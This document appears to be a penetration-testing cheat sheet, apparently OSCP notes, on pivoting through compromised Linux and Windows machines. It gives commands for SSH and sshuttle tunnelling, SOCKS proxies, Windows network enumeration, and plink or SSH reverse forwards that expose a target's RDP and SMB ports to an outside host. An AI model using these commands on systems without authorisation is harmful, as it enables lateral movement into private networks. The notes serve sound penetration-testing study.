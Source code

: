 # Pivot with a Linux machine compromised

## SSHUTTLE

* https://github.com/sshuttle/sshuttle

```
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```

## SSH

**Local Port Forward**
```
ssh <gateway> -L <localport>:<remote host>:<remote port>
```

**Remote Port Forward**
```
ssh <gateway> -R <remote port>:<local host>:<local port>
```

**SOCKs Proxy**
```
ssh username@host -D <local proxy port> -p <remote port> <target ip>
```

`-nNT` - do not allocate tty

`proxychains` - used to send any processes traffic through a SOCKs proxy defaults to port 9050

`HTTPTunnel` or `stunnel` - tunnel any traffic through HTTP or SSL

## Port knock

```
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x server_ip_address; done
```

# Pivot with a Windows machine compromised

## Look for connections to other hosts

```
Arp -a  
netstat -abno 
ipconfig /all 
route print 
schtasks /query /fo LIST /v 
netsh firewall show config
```

## plink

For example to expose RDP, on the target run:
```
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

## SSH

As of Windows 10 1803 (April 2018 Update), ssh client is now included and turned on by default:
```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Remote Desktop

Remote Desktop for windows with share and 85% screen:
```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```

# References

* https://0xdarkvortex.dev/index.php/2018/04/17/31-days-of-oscp-experience/
* https://ben.the-collective.net/oscp-notes/pivoting/
* https://paper.dropbox.com/doc/OSCP-Methodology-EnVX7VSiNGZ2K2QxCZD7Q